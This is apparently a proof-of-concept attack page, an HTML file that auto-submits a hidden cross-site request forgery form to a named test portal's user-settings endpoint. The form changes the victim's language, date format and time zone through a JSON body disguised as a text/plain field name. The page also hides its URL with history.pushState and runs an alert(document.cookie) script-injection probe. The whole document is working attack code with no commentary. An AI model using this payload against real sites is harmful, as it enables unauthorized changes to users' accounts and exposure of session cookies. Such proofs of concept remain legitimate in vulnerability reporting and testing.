 <html><body><script>history.pushState('', '', '/')</script><form action="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=USER_DEFAULT_UPDATE&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=01109&ajax_value=language" method="POST" enctype="text/plain"><input type="hidden" name="&#123;&quot;WA&#95;USER&#95;DEFAULT&quot;&#58;&#123;&quot;DATFM&quot;&#58;&quot;8&quot;&#44;&quot;DCPFM&quot;&#58;&quot;X&quot;&#44;&quot;LANGU&quot;&#58;&quot;Y&quot;&#44;&quot;TZONE&quot;&#58;&quot;UTC&#45;83&quot;&#44;&quot;TZONE&#95;DESCRIPT&quot;&#58;&quot;UTC&#45;8&#58;30&quot;&#44;&quot;TIMEFM&quot;&#58;&quot;4&quot;&#44;&quot;NUMBER&#95;GROUPING&quot;&#58;&quot;&quot;&#44;&quot;NUMBER&#95;DECIMAL&quot;&#58;&quot;&quot;&#44;&quot;EDIT&quot;&#58;true&#125;&#125;" value="" /><input type="submit" value="Submit request" /></form><script>document.forms[0].submit();</script><script>alert(document.cookie)</script></body></html>

